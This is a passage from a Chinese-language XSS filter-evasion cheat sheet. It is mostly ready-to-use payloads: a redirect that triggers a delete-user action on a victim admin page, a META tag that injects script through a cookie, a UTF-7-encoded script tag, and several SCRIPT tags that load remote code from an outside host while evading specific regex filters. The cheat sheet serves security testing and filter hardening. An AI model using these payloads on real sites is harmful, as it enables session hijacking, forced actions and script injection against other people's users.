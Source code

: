 ```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

* * *

### Cookie篡改

这是公认的不着边际，但是我已经发下一个例子是用 <META 去覆盖cookie。另一个例子是有些网站使用cookie中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改cookie让javascript输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

* * *

### UTF-7编码

如果存在xss的页面没有提供页面charset header，或是对于任何被设为UTF-7 的浏览器，我们可以利用下面的代码。（感谢Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且content-types 没有被覆盖，在ie浏览器或使用了IE渲染引擎的 Netscape 8.1，咋你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这是为什么它被标记为完全不支持。Watchfire发现这个漏洞在Google's 自定义 404 脚本中.

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

* * *

### 使用HTML 引用封装的xss

他是被测试在ie，具体因情况而异。它是为了绕过那些可以输入 "<SCRIPT>" 但不允许输入 "<SCRIPT SRC..."，通过正则"/<script[^>]+src/i"进行过滤的xss过滤区。

```
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js">
```

为了执行xss代码在那些允许输入"<SCRIPT>" 但不允许 "<script src..."靠正则拼配"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i" （这个是重要的，因为我已经看到这个正则在实际环境中。）

```
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

另一个逃避相同正则 "/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"的xss代码

```
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这是另一个xss例子去绕过相同的过滤器，关于"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入<SCRIPT>但是不允许通过src加在远程脚本的过滤这个xss的可用方法。（当然，还有一些其他方法去处理它，如果它们允许<SCRIPT> ）

```
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```
